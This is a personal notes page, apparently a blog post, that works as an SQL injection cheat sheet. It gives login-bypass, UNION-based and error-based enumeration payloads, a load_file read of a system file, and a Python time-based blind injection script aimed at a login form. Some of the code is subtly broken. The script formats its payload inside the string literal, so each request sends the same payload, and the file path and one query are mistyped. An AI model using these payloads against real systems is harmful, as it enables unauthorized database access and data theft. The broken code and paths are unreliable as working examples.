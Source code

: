 ```yaml
---
layout: post
title: 'Notes | SQLi'
date: 2021-12-12
permalink: /notes/databases/sqli/
---
```

# [](#header-4)Basic access

If we can send a query to the database to log, we can do:
{% highlight plain %}
' or '1'='1' --
{% endhighlight %}

With this we replace the original input (') and make a statement, do the query or check if 1=1.
Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */


Also we can change the *or* part with the **UNION** syntax.
{% highlight plain %}
' union select ...
{% endhighlight %}

Now we can execute any code we want in the db.
We can check all the tables with this:
{% highlight plain %}
' union select null, 'test', from dual --
{% endhighlight %}
We need to use the same number of field from the tables, so we just need to keep trying adding new fields.

# [](#header-4)Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
{% highlight plain %}
... ORDER BY 5; --
{% endhighlight %}
We can check how many rows are in the query.
##### (We can change **--** to others SQL comments.)

Then we can do an union with the columns:
{% highlight plain %}
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
{% endhighlight %}

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
{% highlight plain %}
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
{% endhighlight %}

Or the others databases:
{% highlight plain %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
{% endhighlight %}
Some databases can limit the amount on databases show, we can try to change it with limit:
{% highlight plain %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
{% endhighlight %}

To get the columns of a table:
{% highlight plain %}
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
{% endhighlight %}

If we can not pass a string like **"database-name"** we can encode it:
{% highlight plain %}
> echo "database-name" | xxd -ps
{% endhighlight %}
##### (We may remove the **0a**, and add a **0x** at the beggining.)

# [](#header-4)Time Based (Blind)
We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
{% highlight plain %}
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
{% endhighlight %}

We can make a Python Script:
{% highlight plain %}
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
{% endhighlight %}

We can change **database()** from the others functions in the **Error Based** to guess another values (tables, columns,...).